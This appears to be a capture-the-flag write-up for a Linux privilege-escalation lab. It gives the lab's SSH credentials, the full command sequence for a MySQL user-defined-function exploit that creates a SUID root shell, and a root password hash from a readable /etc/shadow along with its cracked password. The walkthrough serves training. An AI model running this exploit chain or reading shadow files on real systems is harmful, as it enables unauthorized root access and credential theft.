 > Linux PrivEsc

export IP=10.10.18.84

**NOTE: SSH creds. user:password321**

# Task 1: Openvpn 

# Task 2: Service Exploits

If MySQL service is running as root and has no password we can use a popular exploit in which we create an user defined function to run system commands as group via MySQL service.
Compile the .c file and follow the steps in the code's comment line

```
$ gcc -g -c raptor_udf2.c
$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
$ mysql -u root

Mysql
------------------------------------------------------------------------------
use mysql;
# creating a User Defined Function (UDF) "do_system" using our exploit
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
# Use `do_system` function to copy /bin/bash to /tmp/rootbash and set the SUID permission
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
------------------------------------------------------------------------------

/tmp/rootbash -p => We are root!!
```

# Task 3 - Readable /etc/shadow

When /etc/shadow is readable we can crack the password of any user we want.

1. What is the root user's password hash?

```
$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0
```

2. What hashing algorithm was used to produce the root user's password hash?

```
sha512crypt
```

3. What is the root user's password?

```
password123
```
